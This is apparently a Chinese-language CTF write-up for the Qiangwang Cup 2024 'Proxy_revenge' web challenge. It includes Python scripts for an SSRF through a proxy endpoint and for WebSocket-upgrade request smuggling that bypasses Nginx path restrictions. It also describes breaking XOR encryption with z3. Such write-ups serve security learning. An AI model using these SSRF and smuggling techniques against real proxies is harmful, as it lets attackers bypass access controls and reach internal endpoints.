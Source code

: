 ```yaml
---
title: 强网杯 2024 Proxy_revenge Writeup
date: 2024-11-05 10:00:00
categories: CTF
tags: [CTF, Web]
url: /qwb-2024-proxy-revenge-wp/
---
```


比赛没打出来，结束后没找到 WP，自己复现的。

首先是[初始题目](https://gist.github.com/yllhwa/c5c1f9a7a6d0e3f31498b42e588a5ffa#file-main-go)

初始的 Proxy 很简单，Nginx 层面对 `/v1` 路径的请求做了限制，但是 `/v2` 实现了一个 Proxy 服务，SSRF 直接请求 `/v1/api/flag` 即可拿到 flag。

```python
import requests

target = "http://47.93.55.85:28743"

url = "http://127.0.0.1:8769/v1/api/flag"

res = requests.post(target + "/v2/api/proxy", json={
    "url": url,
    "method": "POST",
})

print(res.text)
```

不出意料很快就是一个 [Revenge](https://gist.github.com/yllhwa/c5c1f9a7a6d0e3f31498b42e588a5ffa#file-main_revenge-go)，这次加了一坨加密，还过滤了请求的结果不能包含 `flag`。

于是一个很直觉的想法就是先绕过这个加密，然后再绕过对 `flag` 的过滤。加密确实可以绕过，由于使用的异或加密，可以选择明文攻击下，用 z3 约束求解即可（不懂密码学，可能有更好的办法）。第一次全 a 的似乎约束不够强，再加了个全 b 的约束就可以了。
代码：[https://gist.github.com/yllhwa/c5c1f9a7a6d0e3f31498b42e588a5ffa#file-z3_key-py](https://gist.github.com/yllhwa/c5c1f9a7a6d0e3f31498b42e588a5ffa#file-z3_key-py)

不过剩下这个过滤就没那么直观了，绕了半天没绕过去。
回到代码审计，事实上代码中有一些比较突兀的地方。Nginx [配置文件](https://gist.github.com/yllhwa/c5c1f9a7a6d0e3f31498b42e588a5ffa#file-proxy-conf)在没有 Websocket 需求的情况下却配置了 Connection Upgrade 的转发，事实上我们可以通过这一点实现请求走私，绕过 Nginx 层面对 `/v1/api/flag` 的过滤。
参考：[websocket-smuggle](https://github.com/0ang3el/websocket-smuggle)
一图以蔽之：
![websocket-smuggle](强网杯24/websocket-smuggle.png)

Golang 实现的 Proxy 服务使用了目的地址的响应代码返回，只要我们发起 Upgrade 请求，同时响应代码为 101，就可以欺骗 Nginx 完成了 Websocket 连接，实现请求走私。

代码：
```python
import socket

target = "http://127.0.0.1:5870"

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('127.0.0.1', 5870))
content = '{"url": "http://192.168.31.17:5000/", "method": "get"}'
# 起一个返回 101 http code 的 服务器
payload = f"""POST /v2/api/proxy HTTP/1.1
Host: 127.0.0.1:5870
Upgrade: websocket
Connection: Upgrade
Content-Length: {len(content)}
Content-Type: application/json

{content}
"""
s.send(payload.encode())
print(s.recv(1024))
payload = f"""POST /v1/api/flag HTTP/1.1
Host: 127.0.0.1:5870
Content-Length: {len(content)}
Content-Type: application/json

{content}
"""
s.send(payload.encode())
print(s.recv(1024))
```